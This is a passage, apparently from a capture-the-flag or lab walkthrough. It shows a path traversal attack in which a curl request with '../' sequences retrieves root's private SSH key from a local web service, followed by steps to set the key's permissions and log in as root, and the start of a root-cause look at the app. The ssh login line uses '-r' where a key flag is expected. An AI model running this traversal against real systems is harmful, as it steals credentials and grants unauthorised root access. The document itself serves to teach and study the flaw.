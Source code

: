 Store SSH key locally:
```
curl --path-as-is http://localhost:8081/assets/../../../../../../../root/.ssh/id_rsa > root.pem
```
![Store SSH Key](./images/31.png)

Change SSH Key permission:
```
chmod 600 root.pem
```

Login as Root:
```
ssh -r root.pem root@<ipaddr>
```

## Additional exploration: Root Cause Analysis of Vulnerable Path Traversal
```
cd /opt/monitoring_site
nano app.py
```
![Running the command](./images/32.png)
